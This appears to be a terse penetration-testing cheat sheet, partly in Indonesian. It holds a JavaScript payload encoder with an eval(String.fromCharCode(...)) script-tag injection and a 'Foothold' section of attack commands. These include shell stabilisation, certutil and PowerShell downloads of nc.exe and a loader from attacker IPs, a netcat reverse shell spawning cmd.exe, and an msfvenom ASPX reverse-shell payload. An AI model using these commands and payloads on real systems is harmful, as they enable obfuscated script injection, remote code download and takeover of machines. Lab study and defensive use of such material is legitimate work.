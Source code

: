 ```js
```

2) Encode payloadnya + https://minify-js.com/
```js
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```

3) Cara aktifinnya
```html
<script>eval(String.fromCharCode(118,97...))</script>
```

# Foothold
1. Linux Stabilize Shell
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'

export TERM=xterm-256color
CTRL+z
stty raw -echo;fg 

(WORKS PAKE export TERM=xterm-256color)
```

2. Windows download
```cmd
certutil -urlcache -f http://192.168.45.205:8000/nc.exe nc.exe
```
```cmd
iwr http://172.16.100.64/Loader.exe -OutFile C:\Users\Public\Loader.exe 
iwr -url http://172.16.100.64/Loader.exe -OutFile C:\Users\Public\Loader.exe 
```

3. Windows revshell
```cmd
nc.exe 192.168.45.205 80 -e cmd.exe
```

4. ASPX MSFVenom Reverse shell
```bash
msfvenom -p windows/shell/reverse_tcp LHOST=192.168.45.205 LPORT=80 -f aspx > shell.aspx
```
